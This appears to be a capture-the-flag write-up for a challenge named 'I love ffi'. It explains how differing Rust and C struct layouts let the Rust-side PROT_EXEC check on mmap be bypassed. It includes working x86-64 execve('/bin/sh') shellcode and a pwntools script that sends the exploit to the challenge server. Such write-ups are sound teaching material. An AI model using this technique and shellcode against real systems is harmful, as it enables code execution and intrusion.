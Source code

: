 `
I love ffi, don't you?
`;

## Provided Files
- chal.c
- chal
- lib.rs
- libi_love_ffi.so
- Dockerfile

```c path="chal.c"
```

```rs path="src/lib.rs"
```

## Intended
The challenge provides the source for `chal` and `libi_love_ffi.so` in `chal.c` and
`lib.rs` respectively. On the Rust side, an `mmap_args` function is defined that
sets up the arguments and passes them over to C to execute. The Rust performs some
basic checks to prevent passing the `PROT_EXEC` flag in the protections field, which
should prevent allocating shellcode.

However, although the struct definitions in Rust and C are equivalent with the
layout and types exactly the same, when you are compiled they are generated
differently. Modern compilers will typically pad struct fields so that memory
accesses to those fields are faster. The problem is that Rust and C have different
padding behavior. C will attempt to align struct fields to their memory size, but
will maintain struct order. Rust will also attempt to align struct fields to their
memory size, but will not maintain struct order.

### memory layout
| offset | C          | Rust       |
|:-------|:-----------|:-----------|
| 0x00   | addr       | addr       |
| 0x04   | addr       | addr       |
| 0x08   | length     | length     |
| 0x0C   | length     | length     |
| 0x10   | protection | offset     |
| 0x14   | flags      | offset     |
| 0x18   | fd         | protection |
| 0x1C   | [ unused ] | flags      |
| 0x20   | offset     | fd         |
| 0x24   | offset     | [ unused ] |

As we can see in the above chart, the fields in Rust dont match up one-to-one to the
struct fields on the C side. This allows us to bypass the protection check in rust
and allocate shellcode.

### Solution
```x86asm filename="shellcode.asm" open
    bits 64
    
_start:
    mov rax, `/bin/sh`
    push rax
    mov eax, 0x3b
    mov rdi, rsp
    xor esi, esi
    xor edx, edx
    syscall
```

```python filename="main.py" open
from pwn import *

p = remote(args.HOST, args.PORT)

for n in [0, 0x1000, 0, 0, 0, 7]:
    p.sendlineafter(b"> ", str(n).encode())

p.send(open("shellcode", "rb").read().ljust(4096, b"\x00"))
p.sendlineafter(b"> ", b"0")

p.interactive()
```

## Unintendeds
No unintendeds :D
